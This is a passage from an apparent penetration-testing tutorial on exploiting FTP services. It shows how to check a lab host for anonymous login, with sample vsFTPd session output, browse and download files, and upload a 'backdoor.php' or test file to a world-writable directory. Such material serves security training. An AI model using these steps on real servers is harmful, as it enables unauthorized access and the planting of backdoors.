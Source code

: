 SSH gives us direct command-line access, but sometimes we need to look at file transfer services as well. FTP services are often overlooked but can provide excellent opportunities for gaining access or escalating privileges! 📁

### 3. Exploiting FTP Services 📁

FTP services often have misconfigurations or allow anonymous access.

**Anonymous FTP Access:**

```bash
# Check for anonymous access
ftp 192.168.1.200
```

**Anonymous FTP output:**
```
Connected to 192.168.1.200.
220 (vsFTPd 2.3.4)
Name (192.168.1.200:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

```bash
# If successful:
ftp> ls
ftp> pwd
ftp> cd /var/ftp/pub
ftp> get interesting_file.txt
ftp> put backdoor.php  # If write access is allowed
```

**FTP directory listing:**
```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 0        65534        4096 Mar 17  2010 writable
226 Directory send OK.
ftp> cd writable
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
13 bytes sent in 0.00 secs (127.0781 kB/s)
ftp> 
```
